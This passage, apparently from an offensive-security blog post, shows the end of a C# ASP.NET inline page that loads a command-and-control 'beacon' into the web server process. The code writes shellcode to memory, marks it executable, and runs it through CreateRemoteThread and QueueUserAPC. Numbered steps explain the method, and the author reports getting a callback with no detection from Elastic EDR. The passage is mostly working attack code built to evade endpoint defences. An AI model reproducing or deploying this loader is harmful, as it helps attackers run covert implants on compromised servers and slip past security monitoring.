 ```c#
            return "NtWriteVirtualMemory failed";
        
        res = VirtualProtectEx(pHandle, addr, (uint)data.Length, 0x00000020, out lpflOldProtect);
        if (res == false)
            return "VirtualProtectEx RX failed";
        IntPtr Thread_id = IntPtr.Zero;
        IntPtr tHandle = CreateRemoteThread(
            pHandle, 
            IntPtr.Zero, 
            0, 
            (IntPtr)0xfff,
            IntPtr.Zero, 
            (uint)CreationFlags.CREATE_SUSPENDED, 
            out Thread_id);

        QueueUserAPC(addr, tHandle, 0);
        ResumeThread(tHandle);
        CloseHandle(pHandle);
        CloseHandle(tHandle);
	return "OK";

    }
</script>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=windows-1252" />
<title>ASP.NET inline</title>
</head>
<body>
<% =ServerSideFunction() %>
</body>
</html>
```

Which does:

1. Get an handle on the current process
2. Allocate RW memory in the process
3. Write the beacon to this memory region
4. Change the memory permissions to RX
5. Call the beacon through APC

When the page is being called, we got our beacon back.

![](/assets/posts/2024-01-04-increase-stealth-capabilities-part2/initial-cs.png)

And I got zero detection from Elastic EDR for this step.

